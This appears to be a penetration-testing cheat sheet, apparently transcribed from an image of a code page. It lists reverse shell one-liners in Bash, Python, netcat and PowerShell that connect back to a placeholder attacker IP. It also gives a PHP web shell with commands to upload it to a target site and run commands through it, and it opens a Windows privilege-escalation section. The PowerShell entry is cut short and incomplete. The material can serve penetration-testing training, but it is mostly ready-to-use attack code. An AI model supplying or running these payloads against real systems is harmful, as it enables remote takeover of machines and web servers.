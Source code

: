 #### **Bash Reverse Shell**

```bash
bash -i >& /dev/tcp/<attacker-IP>/4444 0>&1  
```

#### **Python Reverse Shell**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  
```

#### **Netcat Reverse Shell (Linux)**

```bash
nc -e /bin/bash <attacker-IP> 4444  
```

#### **PowerShell Reverse Shell (Windows)**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker-IP>",4444)
```

* * *

### Web Shell Exploits

#### **PHP Web Shell**

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

#### **Uploading a Web Shell**

```bash
curl -F "file=@shell.php" http://target.com/upload.php  
```

#### **Executing Commands via Web Shell**

```bash
http://target.com/uploads/shell.php?cmd=whoami  
```

* * *

### Windows Privilege Escalation via Services

#### **Identifying Misconfigured Services**

```powershell
Get-Service | Where-Object {$_.StartType -eq "Auto"}  
```
